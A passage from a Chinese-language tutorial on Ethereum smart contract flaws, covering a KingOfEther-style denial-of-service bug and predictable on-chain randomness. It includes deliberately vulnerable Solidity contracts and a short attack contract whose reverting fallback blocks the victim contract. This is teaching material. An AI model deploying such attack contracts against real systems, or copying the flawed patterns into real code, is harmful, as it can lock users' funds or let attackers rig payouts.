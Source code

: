 ```
pragma solidity ^0.4.10;

contract PresidentOfCountry {
     address public president;
     uint256 price;

function PresidentOfCountry(uint256 _price) {
         require(_price > 0);
         price = _price;
         president = msg.sender;
     }

function becomePresident() payable {
         require(msg.value >= price); // must pay the price to become president
         president.transfer(price);   // we pay the previous president
         president = msg.sender;      // we crown the new president
         price = price * 2;           // we double the price to become president
     }
 }
```



一个简单的类似于 KingOfEther 的合约，按合约的正常逻辑任何出价高于合约当前 price 的都能成为新的 president，原有合约里的存款会返还给上一人 president，并且这里也使用了 transfer() 来进行 Ether 转账，看似没有问题的逻辑，但不要忘了，以太坊中有两类账户类型，如果发起 becomePresident() 调用的是个合约账户，并且成功获取了 president，如果其 fallback() 函数恶意进行了类似 revert() 这样主动跑出错误的操作，那么其他账户也就无法再正常进行 becomePresident 逻辑成为 president 了。

简单的攻击代码如下：

```
contract Attack {
     function () { revert(); }

function Attack(address _target) payable {
         _target.call.value(msg.value)(bytes4(keccak256("becomePresident()")));
     }
 }
```



使用 remix-ide 模拟攻击流程：

![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fz783eg8dtg21hc0u8juo.gif)

#### *6. Bad Randomness -* *可预测的随机处理*

伪随机问题一直都存在于现代计算机系统中，但是在开放的区块链中，像在以太坊智能合约中编写的基于随机数的处理逻辑感觉就有点不切实际了，由于人人都能访问链上数据，合约中的存储数据都能在链上查询分析得到。如果合约代码没有严格考虑到链上数据公开的问题去使用随机数，可能会被攻击者恶意利用来进行 “作弊”。

摘自 DASP 的代码块：

```
uint256 private seed;

function play() public payable {
     require(msg.value >= 1 ether);
     iteration++;
     uint randomNumber = uint(keccak256(seed + iteration));
     if (randomNumber % 2 == 0) {
         msg.sender.transfer(this.balance);
     }
 }
```
